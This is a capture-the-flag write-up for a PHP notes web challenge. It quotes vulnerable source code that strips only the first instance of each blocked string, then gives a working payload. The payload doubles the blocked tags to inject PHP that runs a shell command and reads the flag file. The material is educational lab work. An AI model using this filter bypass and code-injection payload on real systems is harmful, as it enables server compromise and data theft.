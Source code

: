 # ProgrammersHateProgramming - Web challenge

When opening the provided web page, we could an input field to create new notes and 2 Pre-defined notes.
We were given the source code which reveals, that for every incoming POST request with a `notewrite` data field, the application (written in php) creates a new file with the contents of the note.
At first there are some filters applied though, which hint to injecting either javascript via a XSS or injecting server-side
rendered php, which makes a lot more sense, since there is no bot visiting our notes.



```php
<?php
if(isset($_POST["notewrite"]))
{
    $newnote = $_POST["notewrite"];
    $notetoadd = str_replace_first("<?php", "", $newnote);
    $notetoadd = str_replace_first("?>", "", $notetoadd);
    $notetoadd = str_replace_first("<script>", "", $notetoadd);
    $notetoadd = str_replace_first("</script>", "", $notetoadd);
    $notetoadd = str_replace_first("flag", "", $notetoadd);

    $filename = generateRandomString();
    file_put_contents("$filename.php", $notetoadd);
    header("location:index.php");
}
?>
```
The source code pretty obviously reveals, that only the first instance of the blocked strings are actually replaced with an empty string, so we can just put everything twice in the payload!

I then intercepted the POST request using [burpsuite](https://portswigger.net/burp/communitydownload) and added my payload into the notewrite data-field

**Payload**
```
notewrite=<?php+<?php
// flag
echo+`cat /flag.php`
?>+?>
```

The comment with just `flag` gets removed which causes the actually used flag to stay. 
For the ones not familiar with php, the backticks (\`\`) execute the string using the shell and return the output.
(Don't forget to url-encode your exploit using `CTR+U` in burpsuite!)
Then send the post request and visit the newly created note to see the *flag*!
